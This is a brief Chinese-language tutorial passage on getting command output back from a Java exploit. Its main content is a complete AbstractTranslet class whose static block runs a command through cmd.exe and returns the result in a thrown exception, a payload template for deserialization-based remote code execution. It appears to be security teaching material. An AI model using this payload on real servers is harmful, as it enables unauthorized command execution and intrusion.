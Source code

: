 

**执行回显**

构建执行的字节码文件，在static静态代码块中执行命令。static静态块执行早于构造函数，调用编写exec函数。最重要是最后的`throw new Exception(buffer.toString());` 抛出异常，异常内容为执行的命令

```
import com.sun.org.apache.xalan.internal.xsltc.DOM;
import com.sun.org.apache.xalan.internal.xsltc.TransletException;
import com.sun.org.apache.xalan.internal.xsltc.runtime.AbstractTranslet;
import com.sun.org.apache.xml.internal.dtm.DTMAxisIterator;
import com.sun.org.apache.xml.internal.serializer.SerializationHandler;
import java.io.BufferedReader;
import java.io.InputStream;
import java.io.InputStreamReader;
import java.nio.charset.Charset;

public class temple_test extends AbstractTranslet {
    static{
        try {
            exec("ipconfig");
        } catch (Exception e) {
            e.printStackTrace();
        }
    }

    public static void exec(String cmd) throws Exception {
        InputStream stream = (new ProcessBuilder(new String[]{"cmd.exe", "/c", cmd})).start().getInputStream();
        InputStreamReader reader=new InputStreamReader(stream, Charset.forName("gbk"));
        BufferedReader bufferedReader =new BufferedReader(reader);
        StringBuffer buffer=new StringBuffer();
        String line=null;
        while((line=bufferedReader.readLine())!=null){
            buffer.append(line).append("\n");
        }
        throw new Exception(buffer.toString());
    }

    public void transform(DOM document, DTMAxisIterator iterator, SerializationHandler handler) {
    }


    public void transform(DOM document, com.sun.org.apache.xml.internal.serializer.SerializationHandler[] handlers) throws TransletException {

    }

    public static void main(String[] args) throws Exception {
        temple_test t = new temple_test();
    }
}
```
